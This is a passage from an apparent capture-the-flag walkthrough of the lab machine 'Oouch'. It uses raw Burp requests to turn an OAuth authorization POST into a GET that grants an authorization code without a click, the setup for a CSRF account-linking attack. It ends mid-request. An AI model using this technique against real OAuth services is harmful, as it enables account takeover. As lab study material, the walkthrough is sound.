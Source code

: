 These requests both include
`client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82`. This is the ID
that the application on port 5000 received when it registered with the
authorization server on port 8000.

I'll grab the POST request to `:8000/oauth/authorize` in Burp Proxy and
kick it over to repeater:



    POST /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read HTTP/1.1
    Host: authorization.oouch.htb:8000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 264
    Connection: close
    Cookie: csrftoken=OGnVcXdWziRrIcISRJovzoNterqmLZeifBvxetEu1Inl5LeMP8zTuuHL05bAzVlL; sessionid=1rzmsqcaprtztfba3xxywdrtk1u5vz3j
    Upgrade-Insecure-Requests: 1

    csrfmiddlewaretoken=jqwRWtcqi4BTXPHM88lUdUvmFqyCzbWNKicTe2AzGMxTcla1PACQiKx23Wmb0hVR&redirect_uri=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Flogin%2Ftoken&scope=read&client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&state=&response_type=code&allow=Authorize



If I send this, I get back a 302 redirect to the `redirect_uri` with the
code attached:



    HTTP/1.1 302 Found
    Content-Type: text.md; charset=utf-8
    Location: http://consumer.oouch.htb:5000/oauth/login/token?code=9E3iRBIZpLtvrwuC0NeNuvWckA3yI8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0
    Vary: Authorization, Cookie



The notes above suggest that this endpoint now supports GET. To convert
this to a GET, I started by changing `POST` to `GET`, but that just
leads to the page with the button to click Authorize, just like in the
Oauth flow originally. I started playing with various POST parameters
from the request above, adding them as GET parameters. Once I add
`&allow=Authorize` to the GET parameters, I get the redirect I'm looking
for. I'll clean up the request a bit more and get:



    GET /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read&allow=Authorize&state= HTTP/1.1
    Host: authorization.oouch.htb:8000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    Connection: close
    Cookie: sessionid=nr57zmuau38o2j89sgbecvg83jyu4px6